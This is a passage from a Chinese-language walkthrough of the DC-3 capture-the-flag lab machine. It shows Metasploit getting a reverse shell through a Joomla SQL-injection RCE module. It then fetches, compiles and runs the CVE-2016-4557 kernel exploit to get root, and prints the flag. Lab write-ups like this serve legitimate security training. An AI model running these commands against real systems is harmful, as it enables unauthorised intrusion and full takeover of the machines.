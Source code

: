 直接GET Shell ，不行的话多试几次
```shell
msf6 > use exploit/unix/webapp/joomla_comfields_sqli_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) > set rhosts 172.16.1.94
rhosts => 172.16.1.94
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) > set payload php/reverse_php
payload => php/reverse_php
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) > run
```

接下来进行内部信息收集
```shell

python -c "import pty;pty.spawn('/bin/bash')"

export TERM=xterm

www-data@DC-3:/$ uname -a
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```
### 特权提升CVE-2016-4557

`exploits/linux/local/39772.txt`
 
 提权文件链接
`https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip`

提权文件大概使用过程
```bash
$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

$ unzip 39772.zip

$ cd 39772

$ tar -xvf exploit.tar

$ cd ebpf_mapfd_doubleput_exploit

$ chmod +x ./compile.sh

$ ./compile.sh

$ ./doubleput

OK !
```


```bash
root@DC-3:/root# cat the-flag.txt 
 __        __   _ _   ____                   _ _ _ _ 
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)
                                                     

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7
```